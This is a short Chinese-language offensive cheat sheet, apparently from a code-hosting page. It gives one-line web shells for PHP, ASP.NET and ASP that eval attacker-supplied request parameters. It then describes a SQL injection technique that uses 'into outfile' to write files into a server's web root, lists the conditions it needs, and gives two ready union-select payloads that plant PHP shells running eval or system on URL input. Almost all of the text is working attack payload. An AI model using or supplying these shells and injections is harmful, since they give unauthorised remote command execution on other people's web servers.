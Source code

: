 # 一句话

PHP

```php
<?php @eval($_POST['ID']);?>
```

ASP.NET

```aspnet
<%eval request("ID")%>
```

ASP

```actionscript
<%@ Page Language="jscript"%><%eval(Request.Item["ID"],"unsafe");%>
```

---

## SQL-inject

```sql
select 1,2 into outfile "/var/www/html/1.txt"
```

**前提条件**

1. 需要知道远程目录

2. 需要远程目录有写权限

3. 需要数据库开启secure_file_priv

---

## 例子

`kobe' union select "<?php @eval($_GET['noob'])?>",2 into outfile "var/www/html/1.php"-- -`

`kobe' union select "<?php system($_GET['noobcmd'])?>",2 into outfile "var/www/html/2.php"-- -`


